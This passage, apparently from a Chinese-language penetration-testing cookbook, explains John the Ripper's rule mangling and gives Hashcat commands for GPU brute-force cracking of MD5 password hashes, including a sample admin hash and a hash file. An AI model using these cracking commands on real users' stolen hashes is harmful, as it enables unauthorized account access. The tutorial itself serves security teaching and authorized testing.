我们可以通过使用 `--rules` 选项来增加找到密码的几率，因为它会应用人们在尝试创建更难破解的密码时常用的修改。例如，对于密码 word，John 会尝试以下几种变化：

+   `Password`

+   `PASSWORD`

+   `password123`

+   `Pa$$w0rd`

# 使用 Hashcat 通过暴力破解密码哈希值

近年来，显卡的发展迅速进步；它们现在所包含的芯片内部有数百或数千个处理器，并且所有这些处理器都可以并行工作。当将其应用于密码破解时，这意味着如果单个处理器每秒能计算 10,000 个哈希值，那么一块拥有 1,000 个核心的 GPU 可以达到 1000 万个哈希计算。这意味着破解时间可以缩短 1,000 倍甚至更多。

在本方法中，我们将使用 Hashcat 通过暴力破解哈希值。只有在你在具有 Nvidia 或 ATI 芯片组的计算机上安装了 Kali Linux 作为基础系统时，这才会有效。如果你在虚拟机上运行 Kali Linux，GPU 破解可能无法正常工作，但你可以将 Hashcat 安装在主机上。Windows 和 Linux 版本都有（[`hashcat.net/hashcat/`](https://hashcat.net/hashcat/)）。

# 准备工作

你需要确保显卡驱动正确安装，并且 oclHashcat 与其兼容，因此你需要执行以下操作：

1.  独立运行 Hashcat；它会告诉你是否有问题：`hashcat`

1.  测试它支持的每种算法的哈希计算速率，可以使用基准模式：`hashcat --benchmark`

1.  根据你的安装情况，Hashcat 可能需要强制与特定显卡兼容：`hashcat --benchmark --force`

# 如何实现...

我们将使用与上一个方法相同的哈希文件：

1.  首先让我们破解一个单独的哈希值。取管理员的哈希值：`hashcat -m 0 -a 3 21232f297a57a5a743894a0e4a801fc3`。结果应该很快显示出来：


如你所见，我们可以直接从命令行设置哈希，并且它将在不到一秒钟的时间内被破解。

1.  现在，为了破解整个文件，我们需要从文件中去除用户名，只保留哈希值，如下所示：


1.  要破解来自文件的哈希，只需将前面命令中的哈希替换为文件名：`oclhashcat -m 0 -a 3 hashes_only_6_7.txt`。如下面的截图所示，使用旧款 GPU，Hashcat 在 10 分钟内即可覆盖一到七个字符的所有可能组合（每秒 688.5 百万个哈希计算），而测试所有八个字符的组合大约需要两个小时多一点。这对于暴力破解来说相当不错：


# 它是如何工作的...

我们在本方法中运行 Hashcat 时使用的参数是定义哈希算法的参数：`-m 0`指示程序使用 MD5 对其生成的单词进行哈希计算，以及攻击类型。`-a 3`意味着我们希望使用纯暴力破解攻击，尝试所有可能的字符组合，直到找到密码。最后，我们在第一个例子中添加了要破解的哈希，在第二个例子中添加了包含哈希集合的文件。

Hashcat 还可以使用字典文件并创建混合攻击（暴力破解加字典攻击），以定义要测试的字符集，并将结果保存到指定文件（它将结果保存到`/usr/share/oclhashcat/Hashcat.pot`）。它还可以对单词应用规则，并使用统计模型（马尔可夫链）来提高破解效率。要查看所有选项，请使用 `--help` 选项，如下所示：`oclhashcat --help`。
